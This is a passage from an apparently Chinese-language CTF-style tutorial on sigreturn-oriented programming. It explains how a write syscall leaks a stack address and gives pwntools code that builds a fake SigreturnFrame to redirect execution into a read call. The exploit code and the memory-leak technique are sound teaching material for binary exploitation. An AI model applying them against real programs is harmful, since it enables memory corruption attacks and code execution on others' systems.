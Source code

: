 现在我们执行这个ret指令，来到syscall指令处：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t011987f8254bfd9794.jpg)

此时执行的syscall指令就是对write函数的系统调用了，会将rsp即栈顶处的内容打出0x400个字节来，我们先不执行，看看现在栈上长什么样：

[![](https://p0.ssl.qhimg.com/t018fefeb43a28615b1.jpg)](https://p0.ssl.qhimg.com/t018fefeb43a28615b1.jpg)

然后执行这个syscall指令，看看我们接收到了什么：

[![](https://p2.ssl.qhimg.com/t0105fcdce0d9d11bd0.jpg)](https://p2.ssl.qhimg.com/t0105fcdce0d9d11bd0.jpg)

确实接收到了0x400个字节，并且我们比对一下上面两个图，确实显示write出了栈顶的“第三个”0x4000b0（第一个0x4000b用于再次执行read，第二个覆盖为0x4000b3执行write，第三个也就是这个被write出来了）。第二个8字节也和栈顶的第二个8字节一样，是栈空间的一个地址0x7ffc1b477ef7，这样我们就泄露出了栈空间的一个地址，我们就准备在这里构造伪sigFrame了。

再往下代码：

```
stack_addr = u64(sh.recv()[8:16])

raw_input()

log.success('leak stack addr :' + hex(stack_addr))

raw_input()
```

可以看到，我们取栈顶第二个8字节的内容（本次执行值为0x7ffc1b477ef7）作为stack_addr，在这里构建伪sigFrame。

再往下：

```
## make the rsp point to stack_addr

## the frame is read(0,stack_addr,0x400)

sigframe = SigreturnFrame()

sigframe.rax = constants.SYS_read

sigframe.rdi = 0

sigframe.rsi = stack_addr

sigframe.rdx = 0x400

sigframe.rsp = stack_addr

sigframe.rip = syscall_ret

payload = p64(start_addr) + 'a' * 8 + str(sigframe)

sh.send(payload)

raw_input()
```
